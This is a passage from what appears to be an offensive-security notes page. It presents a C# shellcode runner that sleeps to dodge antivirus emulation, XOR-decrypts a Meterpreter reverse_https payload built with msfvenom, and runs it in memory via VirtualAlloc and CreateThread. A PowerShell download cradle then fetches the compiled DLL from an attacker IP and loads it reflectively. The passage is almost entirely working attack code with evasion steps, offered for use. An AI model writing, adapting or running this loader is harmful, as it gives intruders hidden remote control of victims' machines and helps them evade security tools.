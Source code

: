 ```csharp

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
{% endcode %}

Compile to DLL and load with PowerShell from memory:

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.13.37/ShellcodeRunner.dll')
$assem = [System.Reflection.Assembly]::Load($data)

$class = $assem.GetType("ShellcodeRunner.Program")
[$bindingFlags= [Reflection.BindingFlags] "NonPublic,Static"]
$method = $class.GetMethod("Run", [$bindingFlags])
$method.Invoke(0, $null)
Or
$a = [ShellcodeRunner.Program]::Run()
```




## Shellcode Encoders/Encryptors

